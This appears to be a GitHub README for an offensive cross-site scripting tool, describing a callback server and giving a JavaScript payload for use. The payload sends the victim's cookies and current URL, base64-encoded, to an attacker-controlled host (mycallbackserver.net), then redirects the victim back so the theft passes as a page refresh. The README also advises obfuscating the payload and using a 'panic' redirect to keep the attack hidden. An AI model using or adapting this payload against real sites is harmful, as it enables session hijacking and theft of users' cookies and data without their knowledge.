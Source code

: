## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing your XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim gets sent to your callback address.

If for whatever reason the victim did not reveal its origin (referer), the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the panic address is used.</sup>
